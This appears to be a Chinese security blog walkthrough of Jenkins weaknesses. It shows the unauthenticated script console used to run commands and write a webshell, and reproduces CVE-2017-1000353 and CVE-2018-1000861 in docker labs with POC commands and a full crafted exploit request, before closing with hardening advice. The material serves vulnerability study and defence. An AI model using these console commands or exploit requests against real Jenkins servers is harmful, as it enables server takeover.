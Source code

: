 # Jenkins一些安全问题



#### 漏洞简介及危害
默认情况下 Jenkins面面板中用户可以选择执行脚本界面来操作一些系统层命令,攻击者可通过未授权访问漏洞或者暴力破解用户密码等进入后台管理服务,通过脚本执行行界面从而获取服务器权限。


#### 环境搭建
```bash
# 下载地址： https://www.jenkins.io/download/
# 可以直接下载war包
java -jar jenkins.war    # 运行
# 
wget http://mirrors.jenkins.io/debian/jenkins_1.621_all.deb # 下载
dpkg -i jenkins_1.621_all.deb # 安装
sudo apt-get -f --fix-missing install # 如果有报依赖项的错误时执行行行
service jenkinis start    # 开启Jenkins服务

浏览器器访问http://192.168.0.100:8080/
```


#### 未授权访问测试
访问`http://192.168.0.100:8080/manage`可以看到没有任何限制可以直接访问


#### Jenkins未授权访问写shell
1.点击“脚本命令行”
![](http://image.geoer.cn/Jenkins_consele.png)

2.执行系统命令
```bash
println "whoami".execute().text
```
 3.利用“脚本命令行”写webshell,(`需要一定的权限且知道网站绝对路径`)，点击运行,写入成功
```bash
new File ("/var/www/html/shell.php").write('<?php phpinfo(); ?>');
```
![](http://image.geoer.cn/Jenkins_cmd.png)

4.访问shell.php， 测试成功
![](http://image.geoer.cn/Jenkins_shell.png)



####  CVE-2017-1000353
>这是一个java反序列化漏洞

执行如下命令启动jenkins 2.46.1：
```bash
docker-compose up -d
```
等待完全启动成功后，访问`http://your-ip:8080`即可看到jenkins已成功运行，无需手工安装。

###### 原理
参考：   https://blogs.securiteam.com/index.php/archives/3171

###### 测试
1.生成序列化字符串
```bash
# 参考 https://github.com/vulhub/CVE-2017-1000353
# 首先下载POC生成工具：   https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar

# 执行下面命令，生成字节码文件
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touc /tmp/success" 
# jenkins_poc.ser是生成的字节码文件名
# "touch ..."是待执行的任意命令
# 生成jenkins_poc.ser文件，这就是序列化字符串。
```

2.生成jenkins_poc.ser文件，这就是序列化字符串。
```bash
# 下载 https://github.com/vulhub/CVE-2017-1000353/blob/master/exploit.py
# Python3执行
python3 exploit.py http://192.168.0.100:8080 jenkins_poc.ser    # 将刚才生成的字节码文件发送给目标
```

3.进入docker容器发现文件创建成功


#### CVE-2018-1000861
Jenkins使用Stapler框架开发，其允许用户通过URL PATH来调用一次public方法。由于这个过程没有做限制，攻击者可以构造一些特殊的PATH来执行一些敏感的Java方法。
通过这个漏洞，我们可以找到很多可供利用的利用链。其中最严重的就是绕过Groovy沙盒导致未授权用户可执行任意命令：Jenkins在沙盒中执行Groovy前会先检查脚本是否有错误，检查操作是没有沙盒的，攻击者可以通过Meta-Programming的方式，在检查这个步骤时执行任意命令。


###### 测试
执行如下命令启动一个Jenkins 2.138，包含漏洞的插件也已经安装：
```bash
docker-compose up -d
```

使用 @orangetw 给出的[一键化POC脚本](https://github.com/orangetw/awesome-jenkins-rce-2019)，发送如下请求即可成功执行命令：
```bash
http://192.168.0.100:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}

# 请求替换到burp拦截的数据包中
```
数据包如下
```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}} HTTP/1.1
Host: 192.168.0.100:8080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:76.0) Gecko/20100101 Firefox/76.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID.a3c40b9a=node010r4vkf3cix27hr5qd9qvw5y41.node0; screenResolution=1920x1080
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

进入容器: `docker-compose exec jenkins bash`,看到 /tmp/success文件创建成功
![](http://image.geoer.cn/Jenkins_poc_ok.png)



#### 配置方面的安全问题
1.允许任意账户注册 带来的安全问题
![](http://image.geoer.cn/Jenkins_reg_any.png)
关闭用户注册
![](http://image.geoer.cn/Jenkins_reg.png)

2.允许匿名访问带来的问题
建议关闭
![](http://image.geoer.cn/Jenkins_nologin.png)




jenkins的日志功能不是很好（可以使用代理，并进行操作的记录）


#### 安全建议
- 使用最新版的jenkins
- 关闭匿名访问
- 关闭用户注册功能
- 用户严格授权
- 最小化插件，相关插件使用最新版
- 使用nginx代理jenkins，不要直接暴露在公网




参考：https://www.secpulse.com/archives/2166.html




---

> 作者: [剑胆琴心](http://shuai06.github.io)  
> URL: https://shuai06.github.io/jenkins%E4%B8%80%E4%BA%9B%E5%AE%89%E5%85%A8%E9%97%AE%E9%A2%98/  

